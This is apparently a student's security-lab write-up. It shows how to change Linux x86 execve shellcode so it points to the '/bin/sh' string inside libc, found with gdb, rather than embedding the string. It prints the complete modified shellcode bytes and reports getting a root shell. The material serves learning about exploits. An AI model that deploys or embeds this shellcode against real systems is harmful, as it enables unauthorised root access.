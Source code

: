 ### Shellcode with no "/bin/sh" string hardcoded

One way of constructing a shellcode that launches a shell (e.g. /bin/sh), but with no string `"/bin/sh"` contained/hardcoded in the employed shellcode array is to use the address of `"/bin/sh"` in libc instead of hardcoding `"/bin/sh"` in the shellcode. The address of `"/bin/sh"` in libc can be found by using the command `find &system, +9999999, "/bin/sh"` in gdb. The address of `"/bin/sh"` was found to be `0xb7f795a4` on my machine.

Hence, to obtain a shellcode with no `"/bin/sh"` hardcoded, I can replaced the following lines of the original shellcode:
```
"\x68""//sh"           /* pushl   $0x68732f2f            */
"\x68""/bin"           /* pushl   $0x6e69622f            */
"\x89\xe3"             /* movl    %esp,%ebx              */
```
With this instruction:
```
"\xbb\xa4\x95\xf7\xb7" /* movl    0xb7f795a4,%ebx        */
```
Both of the code snippets are equivalent - both of them moves the string `"/bin/sh"` into the register `ebx`.

### Obfuscated shellcode
As a result, the shellcode I used in this task is:
```
"\x31\xc0"             /* xorl    %eax,%eax              */
"\x50"                 /* pushl   %eax                   */
"\xbb\xa4\x95\xf7\xb7" /* movl    0xb7f795a4,%ebx        */
"\x50"                 /* pushl   %eax                   */
"\x53"                 /* pushl   %ebx                   */
"\x89\xe1"             /* movl    %esp,%ecx              */
"\x99"                 /* cdql                           */
"\xb0\x0b"             /* movb    $0x0b,%al              */
"\xcd\x80"             /* int     $0x80                  */
```
Using this shellcode, I managed to obtain a root shell:

<img src="task5_screenshot.png" width="800">
